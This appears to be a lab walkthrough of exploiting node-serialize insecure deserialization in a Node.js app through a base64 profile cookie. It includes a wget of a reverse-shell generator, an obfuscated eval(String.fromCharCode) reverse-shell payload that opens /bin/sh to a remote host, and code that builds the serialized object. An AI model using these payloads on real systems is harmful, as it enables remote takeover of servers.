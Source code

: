 - Here we can find that the application listens on port 3000 and when `/` endpoint is navigated, a function is triggered, it checks whether the application has cookies as a profile parameter or not, if not if sets the hardcoded cookies and if yes it deserializes the base64 encoded cookie value and then use **node-serialize.unserialize()** to deserialize it.
- Let's run the application and navigate YOUR-IP:3000 on a browser. `node app.js`
![image](https://user-images.githubusercontent.com/47778874/228322848-b0df4e61-c44a-49d3-bc0f-2bb5f1c1befa.png)
- Intercept the request in burp and refresh the web page again, we can find a profile cookie assigned.
![image](https://user-images.githubusercontent.com/47778874/228442103-ecfcd36f-e38f-4f46-abc4-23c1c529b2f2.png)

- Since the application is using vulnerable module to perform the deserialization, there is possible chance of code execution. We need to use a reverse shell generation for NodeJS called [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

```bash
wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py
python2 nodejsshell.py YOUR-IP 1337
```

- The result would be

```js
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,56,57,46,49,56,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```
- Our payload is ready, now we need to insert it into our serialized object.

```js
var serialize = require('node-serialize');
x = {
profile : function(){
  require('child_process').execSync("echo test", function puts(error, stdout, stderr) {});
}
};
console.log("Serialized: \n" + serialize.serialize(x));
```
